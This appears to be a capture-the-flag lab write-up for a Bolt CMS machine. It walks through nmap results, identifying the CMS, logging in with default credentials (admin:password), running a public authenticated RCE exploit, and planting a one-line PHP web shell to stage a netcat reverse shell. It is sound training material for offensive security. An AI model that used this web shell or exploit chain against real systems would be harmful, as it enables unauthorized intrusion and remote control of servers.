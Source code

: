```

TRACEROUTE (using port 53/tcp)
HOP RTT      ADDRESS
1   32.81 ms 10.8.0.1
2   32.98 ms 10.10.149.194

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 33.30 seconds
```

How many ports are open?

`2`

What ports are open? Comma separated, lowest first: **,**

`22,80`

## Task 3 Webserver

Examine webserver. Identify what web-app is running.

What CMS is the website built on?

`© 2020 • This website is Built with Bolt. `

`Bolt`

## Task 4 Exploit

Download [exploit](https://github.com/r3m0t3nu11/Boltcms-Auth-rce-py) for this app. The exploit works, but might not fire every time. If you first don't succeed...

In the exploit from 2020-04-05, what language is used to write the exploit?

`Python`

As the exploit is authenticated, you will also need a username and password. Knowing the URI for the login-portal is also critical for the exploit to work. Find the login-portal and try login in.

[User Manual / Login](https://docs.bolt.cm/3.6/manual/login)

[http://10.10.149.194/bolt/login](http://10.10.149.194/bolt/login)

`admin:password`

## Task 5 Reverse shell

`python3 exploit.py http://ip username password`

![](https://i.imgur.com/aVvruKT.png)

We can create a simple php-shell on the server, like this: `echo '<?php system($_GET["c"]);?>'>c.php` This we can use to upload a netcat reverse shell on the system and get a reverse shell, as there is no netcat on the box.
